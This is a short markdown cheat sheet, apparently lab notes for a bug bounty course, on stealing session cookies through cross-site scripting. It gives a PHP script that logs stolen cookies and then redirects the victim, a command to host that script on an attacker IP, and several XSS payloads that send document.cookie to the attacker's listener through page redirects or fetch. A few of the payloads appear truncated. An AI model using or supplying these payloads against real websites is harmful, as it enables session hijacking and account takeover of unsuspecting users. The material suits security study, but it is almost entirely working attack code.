

# XSS

```javascript
">
```


## Obtaining session cookies 

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

```bash
php -S <VPN/TUN Adapter IP>:8000
```

```javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
```

```javascript
<h1 onmouseover='document.write(``)'>test</h1>
```

### Netcat

```javascript
<h1 onmouseover='document.write(`:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

```javascript
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```

## Procedencia

| Repositorio | Archivo original | Commit de origen |
| --- | --- | --- |
| CBBH | 17-Session Security/3 - XSS.md | 284a0a42d23a00f2b47b7460371a517a14cb6261 |

[Índice de categoría](../README.md) · [Inicio](../../README.md)
